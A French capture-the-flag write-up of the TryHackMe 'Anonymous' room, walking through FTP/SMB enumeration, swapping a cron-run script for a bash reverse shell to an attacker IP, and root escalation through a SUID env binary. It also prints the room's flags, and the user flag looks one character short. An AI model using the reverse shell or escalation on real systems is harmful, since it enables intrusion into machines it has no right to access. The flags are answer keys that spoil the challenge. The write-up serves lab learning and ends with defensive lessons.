---
tags:
  - Linux
  - TryHackMe
  - Moyen
  - Nmap
  - FTP
  - SMB
  - SUID
---

# Anonymous - TryHackMe

<figure markdown>
  { width="250" }
</figure>

## Informations générales

| | |
|---|---|
| **Plateforme** | TryHackMe |
| **Type** | Offensive / Challenge |
| **Difficulté** | Moyen |
| **Thématiques** | FTP anonyme, script cron modifiable, escalade SUID |
| **Prérequis** | Bases Linux, FTP, reverse shell bash, compréhension des permissions SUID |

## Contexte et objectifs

Cette room met en scène une machine Linux avec des services FTP et SMB mal configurés. L'objectif est d'exploiter un accès FTP anonyme pour remplacer un script exécuté automatiquement par le système, obtenir un reverse shell, puis élever ses privilèges via un binaire SUID mal sécurisé.

!!! info "À propos de cette room"
    Anonymous illustre deux mauvaises pratiques très courantes : l'accès FTP anonyme en écriture sur des répertoires contenant des scripts exécutables, et la présence de binaires SUID non nécessaires. La combinaison suffit à compromettre complètement un serveur.

## Méthodologie

### Étape 1 : Cartographie des services avec Nmap

On commence par identifier tous les services accessibles sur la cible avant de choisir un vecteur d'attaque. Un scan complet sur tous les ports avec détection de version donne une vue globale :

```bash
nmap -sC -sV -p- -T4 <IP_cible>
```

[](./screen/Anonymous/WindowsTerminal_njcELdeqsp.png)

Quatre ports ouverts :
- **21/tcp** : FTP (accès anonyme activé)
- **22/tcp** : SSH
- **139/tcp** : NetBIOS
- **445/tcp** : SMB

!!! success "Réponse"
    **Enumerate the machine. How many ports are open?** → `4`
    **What service is running on port 21?** → `FTP`
    **What service is running on ports 139 and 445?** → `SMB`

### Étape 2 : Enumération SMB

Le scan Nmap a détecté les ports 139 et 445, caractéristiques du protocole SMB. On commence par lister les partages disponibles qui n'ont pas besoin d'authentification :

```bash
smbclient -N -L //<IP_cible>
```

[](./screen/Anonymous/ZP9S22SStD.png)

Parmi les partages listés, un nom sort de l'ordinaire : `pics`.

!!! success "Réponse"
    **There's a share on the user's computer. What's it called?** → `pics`

!!! info "Qu'est-ce que SMB ?"
    SMB (Server Message Block) est un protocole de partage de fichiers et d'imprimantes principalement utilisé sous Windows, mais aussi disponible sous Linux via Samba. L'option `-N` demande à smbclient de ne pas demander de mot de passe, simulant un accès anonyme. Si le serveur autorise les connexions sans authentification, on obtient la liste des partages disponibles.

On accède donc à ce partage :

```bash
smbclient -N //<IP_cible>/pics
```

[](./screen/Anonymous/WindowsTerminal_cd9byBe8hU.png)

On y trouve deux images, `corgo2.jpg` et `puppos.jpeg`.

!!! tip "Rabbit hole SMB"
    Les deux images dans le partage SMB ne contiennent rien d'exploitable. C'est un leurre classique en CTF pour tester si le pentester s'attarde sur de fausses pistes. La règle d'or : noter ce qu'on trouve, mais ne pas s'y bloquer. On continue l'énumération sur les autres services.

### Étape 3 : Connexion FTP anonyme et découverte du script

Le scan Nmap a aussi confirmé que le FTP autorise les connexions anonymes (`Anonymous FTP login allowed`). On s'y connecte sans mot de passe :

```bash
ftp <IP_cible>
# Username: anonymous
# Password: (vide)
```

[](./screen/Anonymous/WindowsTerminal_F8r0yvyPh8.png)

!!! info "Pourquoi tester la connexion anonyme FTP ?"
    De nombreux serveurs FTP mal configurés autorisent la connexion avec le nom d'utilisateur `anonymous` et n'importe quel mot de passe (ou sans mot de passe). C'est une configuration qui remonte aux débuts d'internet pour partager des fichiers publics, mais elle est devenue un vecteur d'attaque classique quand elle est appliquée à des répertoires contenant des fichiers sensibles ou exécutables.

On liste le contenu du serveur FTP :

```bash
ls -la
cd scripts
ls -la
```

[](./screen/Anonymous/cvTey5Vwn0.png)

On télécharge les fichiers pour les analyser :

```bash
mget *
```

[](./screen/Anonymous/WindowsTerminal_0xhtSdgwDs.png)

Le dossier contient trois fichiers : `clean.sh`, `removed_files.log` et `to_do.txt`. On commence par lire les deux premiers, `removed_files.log` nous servira juste après pour confirmer qu'une tâche automatique tourne :

```bash
cat to_do.txt
cat clean.sh
```

[](./screen/Anonymous/WindowsTerminal_kCzgrBkYUT.png)

`to_do.txt` contient une note laissée par l'administrateur : *"I really need to disable the anonymous login...it's really not safe"*. Il sait que c'est un risque, mais ne l'a pas encore corrigé.

`clean.sh` est un script bash qui nettoie le répertoire `/tmp` et consigne ses actions dans `removed_files.log`. Le nom du script et son contenu sont typiques d'une tâche de maintenance planifiée. On vérifie cette hypothèse en attendant quelques secondes puis en relançant la commande, toujours dans la session FTP active sur le dossier `scripts` :

```bash
ls -la
```

On constate que `removed_files.log` est régulièrement modifié, confirmant qu'une tâche cron exécute ce script automatiquement avec les droits du système.

!!! warning "Observation clé"
    `clean.sh` est un script bash exécuté automatiquement par une tâche cron. L'accès FTP anonyme est en lecture ET en écriture sur ce répertoire, ce qui permet de remplacer le script par un payload malveillant. La prochaine exécution automatique déclenchera notre reverse shell.

### Étape 4 : Remplacement de clean.sh par un reverse shell

On prépare un listener sur notre machine :

```bash
nc -lvnp 7777
```

On crée un fichier `clean.sh` avec un reverse shell bash :

```bash
#!/bin/bash
bash -i >& /dev/tcp/<VOTRE_IP>/7777 0>&1
```

!!! info "Comment fonctionne ce reverse shell bash ?"
    `bash -i` ouvre un shell interactif. La redirection `>&` envoie la sortie standard ET les erreurs vers `/dev/tcp/<VOTRE_IP>/7777`, qui est un pseudo-fichier Linux permettant d'ouvrir une connexion TCP vers une IP et un port. Résultat : tout ce que le shell exécute est transmis à notre machine via le réseau. La connexion est initiée par la victime vers nous, ce qui contourne les firewalls qui bloquent les connexions entrantes.

On remplace le script original sur le serveur FTP :

```bash
ftp <IP_cible>
cd scripts
put clean.sh
```

[](./screen/Anonymous/WindowsTerminal_454OPEQkbe.png)

Quelques secondes plus tard, le script est exécuté par le cron et la connexion arrive sur le listener :

[](./screen/Anonymous/WindowsTerminal_Eb2oDAvpHF.png)

On stabilise le shell :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Étape 5 : Flag utilisateur

On est désormais connecté avec l'utilisateur `namelessone`. On peut donc lire le flag utilisateur :

```bash
cat /home/namelessone/user.txt
```

[](./screen/Anonymous/WindowsTerminal_PMLaLetTNQ.png)

!!! success "Réponse"
    **User flag** → `90d6f99258581ff991e68748c414740`

### Étape 6 : Recherche de binaires SUID

Maintenant qu'on a un shell en tant que `namelessone`, on cherche un vecteur d'escalade de privilèges. L'une des premières choses à vérifier sur Linux : les binaires avec le bit SUID activé.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

!!! tip "Pourquoi cette commande ?"
    `-type f` limite la recherche aux fichiers. `-perm -04000` cible les fichiers où le bit SUID (octal 4000) est positionné. `2>/dev/null` supprime les erreurs pour ne garder que les résultats valides. Le résultat est une liste de tous les binaires qui s'exécutent avec les droits de leur propriétaire (souvent root) quel que soit l'utilisateur qui les lance.

[](./screen/Anonymous/6vq0rZEzxP.png)

`/usr/bin/env` apparaît dans la liste avec le bit SUID. Ce binaire ne devrait pas avoir ce flag. Pour connaître la commande exacte à utiliser, on consulte **GTFOBins** (gtfobins.github.io) : c'est le site de référence qui recense tous les binaires Unix exploitables via SUID, sudo ou capabilities.

On cherche `env` dans la section SUID :

[](./screen/Anonymous/brave_id6iWJtoZZ.png)

GTFOBins indique la commande : `env /bin/sh -p`. Le flag `-p` est important : il dit au shell de ne pas réinitialiser les privilèges effectifs, ce qui permet de conserver les droits root hérités du bit SUID.

!!! info "Qu'est-ce qu'un bit SUID ?"
    Quand un fichier a le bit SUID activé, il s'exécute avec les droits de son propriétaire (ici root) quel que soit l'utilisateur qui le lance. Un binaire SUID mal choisi peut offrir une élévation de privilèges complète.

### Étape 7 : Escalade de privilèges via env SUID

On applique maintenant la commande indiquée par GTFOBins pour obtenir un shell root :

```bash
/usr/bin/env /bin/bash -p
```

[](./screen/Anonymous/WindowsTerminal_V1XVGnLGtL.png)

```bash
cat /root/root.txt
```

[](./screen/Anonymous/WindowsTerminal_Vg4HkQegHq.png)

!!! success "Réponse"
    **Root flag** → `4d930091c31a622a7ed10f27999af363`

## Synthèse technique

| Catégorie | Détails |
|-----------|---------|
| **Vulnérabilités identifiées** | FTP anonyme avec accès en écriture sur répertoire de scripts, script cron remplaçable, binaire env avec bit SUID |
| **Techniques utilisées** | Enumération FTP/SMB, remplacement de script cron, reverse shell bash, exploitation SUID GTFOBins |
| **Outils employés** | Nmap, smbclient, FTP client, Netcat |

!!! abstract "Ce qu'il faut retenir"
    1. L'accès FTP anonyme en écriture est extrêmement dangereux, surtout sur des répertoires contenant des scripts exécutés automatiquement.
    2. Les tâches cron qui exécutent des scripts modifiables par des utilisateurs non privilégiés sont un vecteur d'escalade classique.
    3. Tout binaire avec le bit SUID doit être justifié : consulter GTFOBins pour évaluer le risque de chaque binaire SUID non essentiel.
